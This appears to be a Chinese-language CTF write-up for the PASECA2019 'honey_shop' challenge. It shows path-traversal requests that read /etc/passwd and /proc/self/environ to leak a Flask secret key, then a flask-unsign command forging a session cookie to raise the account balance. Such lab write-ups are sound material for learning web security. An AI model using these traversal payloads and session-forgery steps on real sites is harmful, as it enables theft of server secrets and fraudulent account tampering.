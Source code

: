 # \[PASECA2019]honey\_shop

## \[PASECA2019]honey\_shop

## 考点

* LFI
* 任意文件下载
* Flask伪造session

## wp

提示有1336块钱，买flag需要1337块钱。

发现存在session内容如下

```
eyJiYWxhbmNlIjoxMzM2LCJwdXJjaGFzZXMiOltdfQ.YmkaXQ.fruZujDjSk6Qq1MSDRQGKuX8NVw
```

flask-unsign解码一下，得到`{'balance': 1336, 'purchases': []}`，看来需要获取secret\_key修改session来购买flag

试了一下，整个页面除了购买外，只有图片可以点

![](<../../.gitbook/assets/image (23) (1) (1).png>)

尝试任意文件下载，发现/download?image=../../etc/passwd可以下载文件

![](<../../.gitbook/assets/image (35) (1).png>)

访问/download?image=../../proc/self/cmdline，得到运行目录app/app.py

访问/download?image=../../proc/self/environ得到SECRET\_KEY=eiYzH7ck0Pta8ghUGYRRpD8LtNjw5TE2ssJ1BL0F

![](<../../.gitbook/assets/image (4) (1) (1).png>)

重新加密session，`flask-unsign.exe --secret "eiYzH7ck0Pta8ghUGYRRpD8LtNjw5TE2ssJ1BL0F" --sign --cookie "{'balance': 2000, 'purchases': []}"`，得到`eyJiYWxhbmNlIjoyMDAwLCJwdXJjaGFzZXMiOltdfQ.YmkdOg.P80Or5syU9nQrh8nURtyyqinVUY`

修改session购买flag即可
